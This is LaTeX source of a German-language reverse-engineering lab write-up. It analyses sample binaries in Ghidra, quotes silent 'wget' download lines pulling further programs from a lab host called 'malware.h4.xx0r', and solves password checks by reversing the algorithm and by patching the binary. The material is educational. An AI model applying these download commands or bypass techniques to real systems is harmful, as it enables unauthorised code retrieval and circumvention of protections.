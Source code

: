 \documentclass[a4paper,12pt,
headsepline,           %
twoside,               %
pointlessnumbers,      %
bibtotoc,              %
BCOR15mm               %
]{scrbook}
\begin{document}
\section*{Einführung}
Durch das ausführen des Programms erscheinen die Programme 02\_a, 02\_b und 03, der nachfolgenden Aufgaben, auf dem Desktop. 
Nun soll das Programm 01 mit Ghidra untersucht werden. Es werden 3 \texttt{wget} Anweisungen gefunden:
\begin{lstlisting}
  wget -q http://malware.h4.xx0r/02_a
  wget -q http://malware.h4.xx0r/02_b
  wget -q http://malware.h4.xx0r/03
\end{lstlisting}
Es lässt sich mittels \texttt{dig} herausfinden, dass der DNS Eintrag auf localhost zeigt, was bedeutet, dass ein Webserver in der VM läuft.

\section*{Advanced}
\subsection*{Aufgabenteil a}
Durch Dekompilieren von Ghidra und interpretieren des C Codes wird klar, dass das Programm 2 Arumente entgegen nimmt, ein Passwort und eine Chiffre. Das Passwort hat eine Länge von 10 Zeichen, wobei Groß und Kleinschreibung irrelevant ist.
Das Passwort wird zu beginn zeichenweise in einen Integer umgerechnet, mit zehn multipliziert und anschließend modulo 26 gerechnet. Nun wird der Wert auf den ASCII Wert von 'a' gerechnet und zu einem Character konvertiert.
Wendet man den Algorithmus auf de Character 'a' direkt an, folgt der Character 'i' daraus. Eine korrekte Eingabe ist: "aaaaaaaaaa iiiiiiiiii".

\subsection*{Aufgabenteil b}
Durch analysieren des Codes stellt man fest, dass das Passwort immer eine zufällige Permutation aller Zeichen eines Strings im Code ist, der initiert ist mit "0123456789". Patcht man diesen String wie in der Vorlesung beschrieben zu 0000000000 sind alle Passwörter Permutation von 0, also wieder 0000000000.
\end{document}
